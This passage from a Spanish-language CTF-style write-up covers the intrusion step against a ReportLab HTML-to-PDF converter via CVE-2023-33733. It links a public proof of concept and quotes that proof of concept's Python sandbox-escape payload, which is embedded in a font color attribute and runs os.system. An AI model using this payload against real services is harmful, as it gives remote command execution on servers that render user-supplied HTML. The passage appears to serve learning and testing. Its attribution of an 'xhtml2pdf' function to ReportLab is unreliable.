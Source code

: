 ![Image 11](/assets/images/grandma/replab.png)

<br> 

# Intrusión

Para transformar el contenido del archivo html utiliza la librería de python `Report Lab`. Si buscamos por vulnerabilidades, nos encontramos con el `CVE-2023-33733` [(Link al PoC)](https://github.com/c53elyas/CVE-2023-33733). Básicamente esta librería tiene una función llamada `xhtml2pdf`, que es vulnerable a una ejecución remota de comandos mientras transforma el contenido html en pdf. Nos dejan el siguiente código: 

```python 
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

